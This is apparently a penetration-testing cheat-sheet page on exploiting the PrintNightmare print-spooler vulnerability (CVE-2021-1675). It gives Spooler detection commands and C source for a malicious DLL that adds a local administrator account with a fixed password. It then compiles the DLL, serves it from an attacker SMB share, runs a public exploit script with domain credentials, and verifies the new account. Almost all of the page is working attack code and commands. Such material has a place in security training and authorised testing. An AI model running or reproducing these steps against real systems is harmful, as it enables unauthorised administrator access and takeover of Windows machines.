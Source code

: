 # PrintNightMare

{% embed url="https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html" %}

### Is Spooler active ?

```bash
# with cme
cme smb $target_ip -M spooler

# with impacket
rpcdump.py @$target_ip | egrep 'MS-RPRN|MS-PAR'
```

### Prepare the exploit

> Here is the DLL we will use, it creates an user and add it as local administrator :relaxed:

{% code title="nightmare.c" %}
```c
#include <windows.h> 

int RunCMD()
{
    system("net users pnightmare Passw0rd123. /add");
    system("net localgroup administrators pnightmare /add");
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        RunCMD();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endcode %}

Compile it :&#x20;

```bash
x86_64-w64-mingw32-gcc -shared -o nightmare.dll nightmare.c
```

Exploit it :&#x20;

```bash
# clone the repo
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare

# prepare smb share with the nightmare.dll inside
smbserver.py -smb2support share .

# exploit
python3 CVE-2021-1675.py $domain/$user:$password@$hostnameanddomainname '\\192.168.56.1\share\nightmare.dll'

# verify
cme smb $target_ip -u pnightmare -p 'Passw0rd123.'
```
